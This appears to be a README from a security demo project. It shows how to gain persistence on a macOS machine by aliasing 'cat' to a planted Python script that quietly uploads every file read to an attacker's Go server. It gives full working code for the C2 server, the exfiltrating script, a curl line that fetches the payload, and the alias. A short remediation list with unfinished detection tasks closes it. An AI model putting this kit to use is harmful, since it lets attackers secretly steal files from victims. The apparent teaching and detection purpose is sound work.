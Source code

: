 
Assuming the Attacker is already on the target machine and would like to
establish some level of persistence on the Victim machine.
One possible way to achieve this is by modifying a binary that exists on the Victim's machine.
In a very simple form this results in the victim executing a binary they use everyday and in the
process also execute something for the Attacker. 
The Victim does not notice any difference in behviour of the standard binary.


## Scenario
This simple example with showcase how a python script can be planted on the Victim
machine and the `.bash_profile` can be updated to include and alias to this script.
The example script executes when `cat` is called on a file.
Simultaneously the contents of the file are sent to the Attacker.

```
┌───────────────┐              ┌───────────────┐
│    Victim     │              │    Attacker   │
│               │              │               │
│   spycat.py   │              │     C2.go     │
│               │              │               │
│   http POST   ├──────────────►   (log.txt)   │
│               │              │               │
└───────────────┘              └───────────────┘
```

The Victim machine will be MacOS in this case.
The Attacker machine is linux running a custom golang http server.


### Attacker Setup
The GoLang server has a single endpoint which accepts the `POST` of file data.
It writes the output to a log file `log.txt`.

Its composition is as such...

```
package main

import (
  "fmt"
  "net/http"
  "log"
  "os"
  "bytes"
  "io"
)


func ReceiveFile(w http.ResponseWriter, r *http.Request) {
    r.ParseMultipartForm(32 << 20) // limit your max input length!
    var buf bytes.Buffer
    file, header, err := r.FormFile("file")
    if err != nil {
        panic(err)
    }
    defer file.Close()
    //name := strings.Split(header.Filename, ".")
    name := header.Filename
    fmt.Printf("File name %s\n", name)
    io.Copy(&buf, file)
    contents := buf.String()
    fmt.Println(contents)
    os.WriteFile(name, buf.Bytes(), 0600)
    buf.Reset()
    return
}


func handler(w http.ResponseWriter, r *http.Request) {
  switch r.Method {
  case "POST":
    ReceiveFile(w, r)
  default:
    fmt.Fprintf(w, "Hello world")
  }
}


func main() {
  fmt.Println("Starting Server")
  http.HandleFunc("/", handler)
  log.Fatal(http.ListenAndServe(":9999", nil))
}

```

The go server can be started using `go run server.go`.

As a bonus let's add another endpoint which will simply allow for downloading the malicious script.

GET request
```
  case "GET":
    filename := "spycat.py"
    body, _ := os.ReadFile(filename)
    fmt.Fprintf(w, string(body[:]))
```

Full script can be found in the `examples` directory in `server.go`.

This script can be downloaded using any HTTP delivery mechanism,
for testing try it as CURL

```
curl -s https://localhost:8080/spycat >> spycat.py
```

### Victim Setup

A Python script can be created on the Victim machine which leverages the default
Python interpreter installed on MacOS.
Create the script on the machine or download from the Attackers C2 server.

It may look like 

```
import sys
import subprocess


#TODO Add to doc how to update the bash_profile to have this
# spycat by the one used instead of real 'cat'

def main(*args):
  filename = " ".join(args[0])
  #TODO handle command line arguments passed to 'cat'
  cmds = ["curl -s http://localhost:9999 -F 'file=@{0}'".format(filename)]

  print(args[0])
  cat_cmd = " ".join(args[0])
  print(cat_cmd)
  cmds.append("cat " + filename)
  print(cmds)

  #TODO create loop to execute bad command first followed by legit 'cat'
  for cmd in cmds:
      result = subprocess.check_output(cmd, shell=True)
      print(result)

if __name__ == "__main__":

  #TODO get rid of this since cat will be name and can simplify
  # append statement above and reduce code size
  # easier to test tho this way lol
  args = sys.argv[1:]
  main(args)

```

Create an alias that points the normal `cat` command to the malicious version.

```
alias cat="python <absolute_path_to_file>/spycat.py"
```

Now whenever the Vicitim `cat`s a file the content will be displayed to there terminal as well as sent to the Attacker.

## Remediation
* Read this blogpost, ie ingest this information into TIP platform (URL, filehash)
* Update endpoint signatures or create rule
* Threat hunt for any activity
* Block malicious domains and urls on the firewall

[] Show XQL for finding this activity
[] Create BIOC and correlation rule in XDR/XSIAM
[] Automation Remediation Playbook
[] Blocking on EDL/within XDR
[] Enriching/Tracking in XSIAM/XSOAR TIM
